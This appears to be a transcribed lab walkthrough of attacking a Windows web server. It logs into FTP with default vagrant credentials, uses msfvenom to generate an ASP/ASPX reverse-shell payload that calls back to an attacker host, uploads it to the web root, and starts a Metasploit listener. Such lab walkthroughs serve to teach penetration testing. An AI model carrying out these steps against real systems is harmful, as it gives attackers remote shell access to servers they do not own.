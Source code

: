 That was executed successfully.

And the ftp client allows us to download or upload files to and from the ftp server.

What we could do now is try and generate an asp reverse shell with msfvenom. And then upload the asp file or aspx file onto the ftp server, consequently the web server, and then try and execute it and see whether we can obtain a reverse shell.

This might not work or probably will not work in most cases because in certain cases, asp code is confined to very simple execution. And in the context of a reverse shell, it might not work.

And we can also test and see whether we can log in with the use of vagrant.

```
ftp 10.0.28.97 21

vagrant
vagrant

ftp> exit
```

We're verified that.

What we can do now is use msfvenom to generate the asp payload.

Kali Linux: 10.10.16.2

`-f`: The output format is going to be asp.

We can output this into asp or aspx. Let's do aspx because that works better in terms of execution. So we'll generate the aspx payload.

```
msfvenom -p windows/shell/reverse_tcp LHOST=10.10.16.2 LPORT=1234 -f asp > shell.aspx
```

`Split Terminal Horizontally`

And we can then upload it to the ftp server, which will just be in the web server directory itself.

We can now log in via ftp.

```
ftp 10.0.28.97 21

vagrant
vagrant
```

To upload a file to an ftp server.

```
ftp> put shell.aspx
ftp> dir
```

We can start up msfconsole and set up the handler, or the listener, that will receive the connection if the aspx file is executed.

```
use multi/handler
```
